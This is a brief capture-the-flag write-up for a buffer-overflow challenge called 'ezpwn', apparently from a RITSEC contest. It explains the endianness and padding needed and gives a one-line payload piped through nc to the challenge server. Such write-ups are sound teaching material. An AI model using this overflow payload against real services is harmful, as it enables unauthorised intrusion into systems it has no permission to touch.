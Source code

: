 ezpwn
=====
Kill self trying to use gdb-peda and IDA to figure out an easy buffer overflow.

The program desires the value of this one variable to be "1", except you need to follow endianness. oof.

The actual solution needs 28 bytes of overflow instead of the 32 in the given program.

``echo -e "FFFFFFFFEEEEEEEEDDDDDDDDCCCC\x01\x00\x00\x00" | nc fun.ritsec.club 8001``
